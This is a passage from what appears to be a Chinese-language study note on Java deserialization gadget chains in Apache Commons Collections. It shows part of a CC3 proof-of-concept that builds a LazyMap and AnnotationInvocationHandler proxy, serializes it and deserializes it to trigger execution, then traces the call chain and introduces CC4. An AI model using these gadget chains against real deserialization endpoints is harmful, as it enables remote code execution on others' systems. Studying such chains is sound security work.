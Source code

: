 ```java
        // 初始化 LazyMap
        Map lazyMap = LazyMap.decorate(new HashMap(), chain);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // 创建携带着 LazyMap 的 AnnotationInvocationHandler 实例
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        // 创建LazyMap的动态代理类实例
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, mapProxy);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc3"));
            outputStream.writeObject(invocationHandler);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc3"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

}
```
调用链：
```
AnnotationInvocationHandler.readObject()
  Proxy.entrySet() // readObject调用了proxy的某些方法，回调invoke
    Proxy.invoke() === AnnotationInvocationHandler.invoke()
        LazyMap.get()
            ChainedTransformer.transform()
             ConstantTransformer.transform()
             InstantiateTransformer.transform()
             newInstance()
                 TrAXFilter#TrAXFilter()
                   TemplatesImpl.newTransformer()
                     TemplatesImpl.getTransletInstance() 
                       TemplatesImpl.defineTransletClasses()  // 定义类
                    ...  // 创建类实例，触发static代码块
```
参考：[Java安全之Commons Collections3分析](https://www.cnblogs.com/nice0e3/p/13854098.html)

## CommonsCollections4
CC4 是 CC2 的一个变种，用 PriorityQueue 的 TransformingComparator 触发 ChainedTransformer，再利用 InstantiateTransformer 实例化 TemplatesImpl
>测试环境：
JDK 1.7/JDK1.8
Commons Collections 4.0
